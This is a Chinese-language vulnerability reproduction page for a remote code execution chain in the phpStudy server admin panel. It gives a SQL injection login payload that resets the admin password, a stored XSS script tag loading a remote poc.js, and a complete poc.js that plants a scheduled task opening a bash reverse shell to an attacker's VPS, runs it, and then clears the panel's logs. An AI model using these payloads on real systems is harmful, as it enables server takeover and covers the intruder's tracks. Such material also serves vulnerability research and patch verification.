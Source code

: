 # PHPStudy 后台管理页面 one click RCE

## 漏洞描述

phpStudy 集安全、高效、功能与一体，已获得全球用户认可安装，运维也高效。支持一键 LAMP、LNMP、集群、监控、网站、数据库、FTP、软件中心、伪静态、云备份、SSL、多版本共存、Nginx 反向代理、服务器防火墙、Web 防火墙、监控大屏等服务器管理功能。phpStudy 面板存在存储型 XSS 漏洞，攻击者可以通过 js 调用面板中的计划任务执行系统命令。

## 漏洞影响

```
小皮 windows 面板 V0.102 以及以下版本
小皮 linux 面板 X1.29 以及以下版本
```

## 漏洞复现

### 方式 1 SQL 注入

phpstudy 访问面板登录页面需要添加如下 Headers：

```
x-requested-with: XMLHttpRequest
```

![image-20230519091358703](images/image-20230519091358703.png)

在用户登录处构造 Payload，其中 Password 的值是经过五次 md5 加密后的结果，脚本如下：

```python
import hashlib
str = "123456"
for i in range(0,5):
    str = hashlib.md5(str.encode()).hexdigest()
print(str)
```

填写 Payload，验证码处需要正确输入：

```
admin';UPDATE ADMINS set PASSWORD = 'c26be8aaf53b15054896983b43eb6a65' where username = 'admin';--
```

虽然提示错误信息，但此时已经成功将用户名/密码修改为： `admin/123456`

![image-20230519092040856](images/image-20230519092040856.png)

在后台计划任务处创建一个反弹 shell 脚本，点击执行：

![image-20230519092608985](images/image-20230519092608985.png)

服务器端监听，成功接收反弹 Shell：

![image-20230519092655024](images/image-20230519092655024.png)

### 方式 2 XSS

在 VPS 上放置 [poc.js](#漏洞POC)，监听 8888 端口，并通过以下命令启动 HTTP 服务：

```
python3 -m http.server 9999
```

在访问面板登录页面用户名处插入 XSS 语句：

```
<script src="http://<your-vps-ip>:9999/poc.js"></script>
```

![image-20230519100003117](images/image-20230519100003117.png)

通过方式 1，已经获得了用户名/密码为 admin/123456，进入后台验证一下计划任务是否成功写入：

![image-20230519100442704](images/image-20230519100442704.png)

等待 1 分钟，成功接收反弹 Shell：

![image-20230519094345974](images/image-20230519094345974.png)

## 漏洞POC

poc.js：

```js
function exp() {
  $.ajax({
      url: '/service/app/tasks.php?type=task_list',   //获取计划任务列表
      type: 'GET',
      headers:{
          "X-Requested-With": "XMLHttpRequest"
      },
      dataType: 'json',
      success: function (data) {
          var id = data.data[0].ID;    //任务名称
          $.ajax({
              url: '/service/app/tasks.php?type=exec_task',     //执行计划任务
              type: 'POST',
              headers:{
                  "X-Requested-With": "XMLHttpRequest",
                  "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
              },
              data: { tid: id },
              dataType: 'json',
              success: function (res) {
                  $.ajax({
                      url: '/service/app/log.php?type=clearlog',
                      type: 'POST',
                      data: { type: 'clearlog' },
                      dataType: 'json',
                      success: function (res2) {}
                  });
              }
          });
      }
  });
}

function save() {
  var data = new Object();
  data.task_id = '';
  data.title = 'test';
  data.exec_cycle = '5';
  data.week = '1';
  data.day = '3';
  data.hour = '1';
  data.minute = '1';
  data.shell = 'bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1';;
  $.ajax({
      url: '/service/app/tasks.php?type=save_shell',
      type: 'POST',
      headers:{
          "X-Requested-With": "XMLHttpRequest",
          "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
      },
      data: data,
      dataType: 'json',
      success: function (res) {
          exp();
      }
  });
}

save();
```

